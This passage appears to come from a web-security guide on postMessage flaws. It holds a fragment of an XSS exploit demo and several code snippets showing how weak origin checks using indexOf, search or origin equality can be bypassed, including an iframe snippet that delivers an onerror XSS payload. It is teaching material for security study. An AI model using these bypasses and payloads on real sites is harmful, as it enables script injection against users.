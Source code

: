 1. **Deploy the Exploit:**
   * Load the exploit page in a browser and click on the "Click to Exploit" button.
2. **Result:**
   * The XSS payload is executed in the context of the vulnerable application, demonstrating a successful attack.

<figure><img src="../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## **Bypassing Origin Checks:**

*   **Using `indexOf`:**

    ```javascript
    window.addEventListener('message', function (e) {
        if (e.origin.indexOf("https://legitimate.com") === -1) {
            // Deny
        } else {
            // Allow
        }
    });
    ```

    This check can be bypassed by registering a subdomain like `https://legitimate.com.attacker.site`.
*   **Using `String.search`:**

    ```javascript
    window.addEventListener('message', function (e) {
        if ("https://legitimatesite.com".search(e.origin) === -1) {
            // Deny
        } else {
            // Allow
        }
    });
    ```

    Bypass this by using a domain like `legit.matesite.com`, where the `.` will match any character due to the regex conversion, allowing it to match `legitimatesite.com`.
*   **Bypassing `e.origin === window.origin`:**

    ```javascript
    let f = document.createElement('iframe');
    f.sandbox = 'allow-scripts allow-popups allow-top-navigation';
    f.srcdoc = `
    let w = open('https://so-xss.terjanq.me/iframe.php');
    setTimeout(_ => {
        w.postMessage({type: "render", body: "<audio/src/onerror=\\"${payload}\\">"}, '*');
    }, 1000);
    `;
    ```

    This sets `e.origin` and `window.origin` to `null`, bypassing the check.

## **X-Frame-Header Bypass:**
